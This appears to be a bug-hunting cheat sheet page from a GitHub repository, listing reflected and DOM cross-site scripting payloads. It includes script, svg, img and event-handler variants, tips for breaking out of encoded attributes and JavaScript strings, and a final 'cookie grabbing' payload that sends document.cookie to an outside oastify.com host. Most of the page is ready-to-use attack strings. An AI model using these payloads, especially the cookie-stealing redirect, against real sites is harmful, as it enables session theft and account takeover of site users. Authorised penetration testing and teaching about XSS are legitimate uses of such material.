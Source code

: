 #### For testing.
```js
<script>alert(1337)</script>
<svg/ onload=alert(1337)//
<script onclick="alert(1337)">
" onclick="alert(1337)
" autofocus="alert(1337)
"onmouseover="alert(1)
">cyborg71<script>alert(1337)</script> >> DOM XSS in document.write sink using source location.search
<img src=x onerror=alert('XSS')>
<a href="javascript:alert('XSS')">Click me</a>
xss&lt;script&gt;alert&#40;1337&#41;&lt;&#47;script&gt;
```
### Reflected XSS into attribute with angle brackets HTML-encoded
Inject ```<xss123>'"``` and see if the angle ```<>``` brackets are encoded with ```&lt;``` and ```&gt;```.
  ![Screenshot from 2024-06-12 22-48-00](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/4bb3d36b-cef6-49ae-ab0d-a4c6ad9c8553)<br>
If this is the case, you should inject this payloads. 
```js
" onclick="alert(1337)
" autofocus="alert(1337)
" autofocus onfocus="alert(1337)
"onmouseover="alert(1)
```
### Reflected XSS into a JavaScript string with angle brackets HTML encoded
Inject ```<xss123>'"``` and see if your payload encoded in a javascript code.<br>
![Screenshot from 2024-06-13 00-19-30](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/9180969c-2299-4adf-9c4a-a05e97629938)<br>
In this case you should try this payload to braek the code to inject maliciuos payload.

```js
xss';alert(1);'xss
```
#### For cookie grabbing.
```js
<script>document.location='https://r91uwnam29s3c1jdsyc8t7t34ualyfm4.oastify.com//'+document.cookie</script> 
```
